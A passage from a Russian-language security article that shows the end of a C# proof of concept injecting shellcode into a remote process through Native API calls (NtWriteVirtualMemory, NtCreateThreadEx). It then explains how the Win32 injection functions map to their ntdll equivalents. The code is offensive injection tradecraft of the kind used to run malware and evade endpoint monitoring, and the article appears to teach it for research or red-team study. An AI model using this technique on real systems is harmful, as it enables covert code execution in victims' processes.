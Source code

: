 ```csharp
            // записываем шеллкод в выделенную область
            var shellcode = Marshal.AllocHGlobal(buf.Length);
            Marshal.Copy(buf, 0, shellcode, buf.Length);
            uint bytesWritten = 0;
            _ = NtWriteVirtualMemory(hProcess, baseAddress, shellcode, (uint)buf.Length, ref bytesWritten);
            Marshal.FreeHGlobal(shellcode);

            // запускаем поток
            IntPtr hThread = IntPtr.Zero;
            _ = NtCreateThreadEx(ref hThread, DInvoke.Data.Win32.WinNT.ACCESS_MASK.MAXIMUM_ALLOWED, IntPtr.Zero, hProcess, baseAddress, IntPtr.Zero, false, 0, 0, 0, IntPtr.Zero);
        }
    }
}
```

В этом PoC мы заменили все функции, учавствующие в процессе инжекта шеллкода, на вызовы Native API, а именно: 

- `OpenProcess` → `NtOpenProcess`,
- `VirtualAllocEx` → `NtAllocateVirtualMemory`,
- `WriteProcessMemory` → `NtWriteVirtualMemory`,
- `CreateRemoteThread` → `NtCreateThreadEx`.

Первый вопрос, приходящий в голову – как мы определили, что именно эти функции Native API лежат в основе тех вызовов Win32 API, которые мы использовали ранее? Что ж, самый праведный способ это выяснить – это самостоятельно окунуться в пучину дизассемблирования `kernel32.dll`... Но так как у меня лапки (а еще нет профессиональной «Иды»), то можно посмотреть на сорцы [ReactOS](https://ru.wikipedia.org/wiki/ReactOS), где все это уже <strike>украли</strike> сделали до нас.

Например, [в реализации](https://doxygen.reactos.org/d0/d85/dll_2win32_2kernel32_2client_2thread_8c.html#a17cb3377438e48382207f54a8d045f07) функции `CreateRemoteThread` есть недвусмысленный намек на вызов `NtCreateThread`, что относит нас к сигнатуре [NtCreateThreadEx](http://pinvoke.net/default.aspx/ntdll/NtCreateThreadEx.html).
